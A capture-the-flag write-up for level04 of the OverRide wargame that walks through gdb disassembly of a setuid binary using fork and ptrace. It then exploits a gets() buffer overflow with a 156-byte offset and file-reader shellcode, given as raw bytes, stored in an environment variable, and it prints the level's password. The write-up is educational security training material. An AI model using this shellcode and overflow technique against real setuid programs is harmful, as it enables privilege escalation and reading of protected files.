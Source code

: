 # Level04

## Walkthrough

We list the files in the current home directory.

```bash
level04@OverRide:~$ ls -lA
total 17
-rw-r--r--  1 level04 level04  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level04 level04 3533 Sep 10  2016 .bashrc
-rw-r--r--+ 1 level04 level04   41 Oct 19  2016 .pass
-rw-r--r--  1 level04 level04  675 Sep 10  2016 .profile
-rwsr-s---+ 1 level05 users   7797 Sep 10  2016 level04
level04@OverRide:~$ file level04 
level04: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x7386c3c1bbd3e4d8fc85f88744379783bf327fd7, not stripped
```

The file `level04` is owned by **level05** and has the setuid bit.

We list the functions inside the executable.

```
(gdb) info functions 
All defined functions:

Non-debugging symbols:
0x0804845c  _init
0x080484a0  fflush
0x080484a0  fflush@plt
0x080484b0  gets
0x080484b0  gets@plt
0x080484c0  getchar
0x080484c0  getchar@plt
0x080484d0  signal
0x080484d0  signal@plt
0x080484e0  alarm
0x080484e0  alarm@plt
0x080484f0  wait
0x080484f0  wait@plt
0x08048500  puts
0x08048500  puts@plt
0x08048510  __gmon_start__
0x08048510  __gmon_start__@plt
0x08048520  kill
0x08048520  kill@plt
0x08048530  __libc_start_main
0x08048530  __libc_start_main@plt
0x08048540  prctl
0x08048540  prctl@plt
0x08048550  fork
0x08048550  fork@plt
0x08048560  __isoc99_scanf
0x08048560  __isoc99_scanf@plt
0x08048570  ptrace
0x08048570  ptrace@plt
0x08048580  _start
0x080485b0  __do_global_dtors_aux
0x08048610  frame_dummy
0x08048634  clear_stdin
0x08048657  get_unum
0x0804868f  prog_timeout
0x080486a0  enable_timeout_cons
0x080486c8  main
0x08048830  __libc_csu_init
0x080488a0  __libc_csu_fini
0x080488a2  __i686.get_pc_thunk.bx
0x080488b0  __do_global_ctors_aux
0x080488dc  _fini
```

There is 1 user-defined function: `main()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x080486c8 <+0>:     push   ebp
   0x080486c9 <+1>:     mov    ebp,esp
   0x080486cb <+3>:     push   edi
   0x080486cc <+4>:     push   ebx
   0x080486cd <+5>:     and    esp,0xfffffff0
   0x080486d0 <+8>:     sub    esp,0xb0
   0x080486d6 <+14>:    call   0x8048550 <fork@plt>
   0x080486db <+19>:    mov    DWORD PTR [esp+0xac],eax
   0x080486e2 <+26>:    lea    ebx,[esp+0x20]
   0x080486e6 <+30>:    mov    eax,0x0
   0x080486eb <+35>:    mov    edx,0x20
   0x080486f0 <+40>:    mov    edi,ebx
   0x080486f2 <+42>:    mov    ecx,edx
   0x080486f4 <+44>:    rep stos DWORD PTR es:[edi],eax
   0x080486f6 <+46>:    mov    DWORD PTR [esp+0xa8],0x0
   0x08048701 <+57>:    mov    DWORD PTR [esp+0x1c],0x0
   0x08048709 <+65>:    cmp    DWORD PTR [esp+0xac],0x0
   0x08048711 <+73>:    jne    0x8048769 <main+161>
   0x08048713 <+75>:    mov    DWORD PTR [esp+0x4],0x1
   0x0804871b <+83>:    mov    DWORD PTR [esp],0x1
   0x08048722 <+90>:    call   0x8048540 <prctl@plt>
   0x08048727 <+95>:    mov    DWORD PTR [esp+0xc],0x0
   0x0804872f <+103>:   mov    DWORD PTR [esp+0x8],0x0
   0x08048737 <+111>:   mov    DWORD PTR [esp+0x4],0x0
   0x0804873f <+119>:   mov    DWORD PTR [esp],0x0
   0x08048746 <+126>:   call   0x8048570 <ptrace@plt>
   0x0804874b <+131>:   mov    DWORD PTR [esp],0x8048903
   0x08048752 <+138>:   call   0x8048500 <puts@plt>
   0x08048757 <+143>:   lea    eax,[esp+0x20]
   0x0804875b <+147>:   mov    DWORD PTR [esp],eax
   0x0804875e <+150>:   call   0x80484b0 <gets@plt>
   0x08048763 <+155>:   jmp    0x804881a <main+338>
   0x08048768 <+160>:   nop
   0x08048769 <+161>:   lea    eax,[esp+0x1c]
   0x0804876d <+165>:   mov    DWORD PTR [esp],eax
   0x08048770 <+168>:   call   0x80484f0 <wait@plt>
   0x08048775 <+173>:   mov    eax,DWORD PTR [esp+0x1c]
   0x08048779 <+177>:   mov    DWORD PTR [esp+0xa0],eax
   0x08048780 <+184>:   mov    eax,DWORD PTR [esp+0xa0]
   0x08048787 <+191>:   and    eax,0x7f
   0x0804878a <+194>:   test   eax,eax
   0x0804878c <+196>:   je     0x80487ac <main+228>
   0x0804878e <+198>:   mov    eax,DWORD PTR [esp+0x1c]
   0x08048792 <+202>:   mov    DWORD PTR [esp+0xa4],eax
   0x08048799 <+209>:   mov    eax,DWORD PTR [esp+0xa4]
   0x080487a0 <+216>:   and    eax,0x7f
   0x080487a3 <+219>:   add    eax,0x1
   0x080487a6 <+222>:   sar    al,1
   0x080487a8 <+224>:   test   al,al
   0x080487aa <+226>:   jle    0x80487ba <main+242>
   0x080487ac <+228>:   mov    DWORD PTR [esp],0x804891d
   0x080487b3 <+235>:   call   0x8048500 <puts@plt>
   0x080487b8 <+240>:   jmp    0x804881a <main+338>
   0x080487ba <+242>:   mov    DWORD PTR [esp+0xc],0x0
   0x080487c2 <+250>:   mov    DWORD PTR [esp+0x8],0x2c
   0x080487ca <+258>:   mov    eax,DWORD PTR [esp+0xac]
   0x080487d1 <+265>:   mov    DWORD PTR [esp+0x4],eax
   0x080487d5 <+269>:   mov    DWORD PTR [esp],0x3
   0x080487dc <+276>:   call   0x8048570 <ptrace@plt>
   0x080487e1 <+281>:   mov    DWORD PTR [esp+0xa8],eax
   0x080487e8 <+288>:   cmp    DWORD PTR [esp+0xa8],0xb
   0x080487f0 <+296>:   jne    0x8048768 <main+160>
   0x080487f6 <+302>:   mov    DWORD PTR [esp],0x8048931
   0x080487fd <+309>:   call   0x8048500 <puts@plt>
   0x08048802 <+314>:   mov    DWORD PTR [esp+0x4],0x9
   0x0804880a <+322>:   mov    eax,DWORD PTR [esp+0xac]
   0x08048811 <+329>:   mov    DWORD PTR [esp],eax
   0x08048814 <+332>:   call   0x8048520 <kill@plt>
   0x08048819 <+337>:   nop
   0x0804881a <+338>:   mov    eax,0x0
   0x0804881f <+343>:   lea    esp,[ebp-0x8]
   0x08048822 <+346>:   pop    ebx
   0x08048823 <+347>:   pop    edi
   0x08048824 <+348>:   pop    ebp
   0x08048825 <+349>:   ret
End of assembler dump.
```

The `main()` function:
- calls `fork()` to create a new process and compares the returned value to check if we are in the child or the parent
- in the child:
  - calls `prctl()`, with `PR_SET_PDEATHSIG` and `SIGKILL` as arguments, causing the child to terminate immediately if the parents process dies
  - calls `ptrace()` with `PTRACE_TRACEME` as request to indicate that this process is to be traced by its parent
  - calls `gets()` and stores user input in `[exp + 0x20]`
- in the parent:
  - calls `wait()` to suspend execution until the child process terminates
- calls `ptrace()` with `PTRACE_PEEKUSER` to read at an offset of `0x2c` (44) in the child user area (which holds the registers and other information about the process)
- calls `kill()` to kill the child process before the end of the program

The only instruction we can exploit is the `gets()` call in the child, probably with a buffer overflow. But because the parent calls `kill()`, we may not be able to call `system("/bin/sh")`.

First, we find the offset required to perform a buffer overflow in the child.

```
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04 
[New process 1660]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1660]
0x41326641 in ?? ()
```

The buffer overflow pattern generator finds an offset of 156 bytes.

Then we have to find an alternative shellcode to read the content of the `.pass` file without calling `system("/bin/sh")`. After some researches, we find one called *file reader*. We only have to append the path to the file we wanna read at the end of it, in our case `/home/users/level05/.pass`.

We store our shellcode inside an environment variable.

```bash
level04@OverRide:~$ export SHELLCODE=$(python -c "print('\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff' + '/home/users/level05/.pass')")
```

We find its address by writing and running a simple c program.

```c
#include <stdio.h>
#include <stdlib.h>

int main(void) {
  printf("%p\n", getenv("SHELLCODE"));
  return 0;
}
```

```bash
level04@OverRide:~$ cd /tmp/
level04@OverRide:/tmp$ mkdir getenv
level04@OverRide:/tmp$ cd getenv/
level04@OverRide:/tmp/getenv$ vim main.c
level04@OverRide:/tmp/getenv$ gcc -m32 main.c 
level04@OverRide:/tmp/getenv$ ./a.out 
0xffffd82b
```

Our environment variable is located at the address `0xffffd82b`.

To solve this level, we simply write 156 bytes to the buffer, followed by the address of the environment variable.

```bash
level04@OverRide:~$ python -c 'print("A" * 156 + "\x2b\xd8\xff\xff")' | ./level04 
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
```

## Resources

- [set follow-fork-mode command](https://visualgdb.com/gdbreference/commands/set_follow-fork-mode)
- [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator)
- [File reader shellcode](https://shell-storm.org/shellcode/files/shellcode-73.html)
